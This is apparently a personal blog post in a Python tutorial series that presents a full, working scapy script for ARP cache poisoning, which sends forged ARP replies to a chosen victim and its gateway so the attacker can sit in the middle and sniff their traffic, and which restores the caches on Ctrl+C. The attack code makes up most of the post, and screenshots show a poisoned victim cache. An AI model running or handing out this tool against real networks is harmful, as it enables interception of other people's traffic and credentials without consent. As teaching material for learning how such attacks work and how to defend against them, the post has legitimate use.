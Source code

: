 ```yaml
---
title: An ARP Spoof/Poison Program
date: 2021-06-12 10:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: A Program to poison the ARP cache of a victim host.
---
```


<p align="left">
 <img src="https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/ArpSpoof/arp_meme.jpg">
</p>


## This is a python script that poisons the ARP cache of a victim and the gateway/router to MITM and sniff data succesfully and resets the cache back upon hitting "CTRL+C".

- We sent the spoofed packets using the scapy.ARP() method. (Setting opcode=2 as a response)

- We print dynamically using the print function as follows: `print("\r CONTENT, end="")` (set a null char as delimiter rather than the default \n)

- Implemented a restore function to restore the arp cache.


### Code:

```python
#!/usr/bin/env python
import sys
import re
import scapy.all as scapy
import time
import re
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target_ip", dest="target_ip", help="Target IP address to MITM")
    parser.add_argument("-g", "--gateway_ip", dest="gateway_ip", help="Gateway/router's IP address to MITM")
    options = parser.parse_args()
    if not options.target_ip:
        # code to handle error
        parser.error("[-] Please specify an target ip, use --help for info.")
    if not options.gateway_ip:
         # code to handle error
         parser.error("[-] Please specify a gateway ip, use --help for info.")
    return options

def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast/arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
    clients_list = ""
    for element in answered_list:
        # use show method to view packet contents.
        clients_list += element[1].hwsrc
    return clients_list

def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    # use scapy.ls(scapy.ARP) to view fields
    # op=2 --> opcode for response , hwsrc automatically set to attackers
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    scapy.send(packet, verbose=False)

def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
    # count set to 4 to make sure cache is restored
    scapy.send(packet, count=4, verbose=False)

sent_packet_count = 0
options = get_arguments()
target_ip = options.target_ip
gateway_ip = options.gateway_ip

print("""
    
    ███████████████████████████████████████████████
    ██▀▄─██▄─▄▄▀█▄─▄▄─█─▄▄▄▄█▄─▄▄─█─▄▄─█─▄▄─█▄─▄▄─█
    ██─▀─███─▄─▄██─▄▄▄█▄▄▄▄─██─▄▄▄█─██─█─██─██─▄███
    ▀▄▄▀▄▄▀▄▄▀▄▄▀▄▄▄▀▀▀▄▄▄▄▄▀▄▄▄▀▀▀▄▄▄▄▀▄▄▄▄▀▄▄▄▀▀▀
    
""")

try:
    while(True):
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packet_count += 2
        # Dynamic printing
        print("\r[+] Packets sent: " + str(sent_packet_count), end="")
        #time.sleep(2)
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n\n\n Resetting ARP tables back to normal!")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)

```

### Output:

*Attacker:*

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/ArpSpoof/arpspoof1.png)

*Target arp cache after cache poisoning:*

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/ArpSpoof/arpspoof2.png)

*Target arp cache after hitting "CTRL+C" to restore cache:*

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/ArpSpoof/arpspoof3.png)





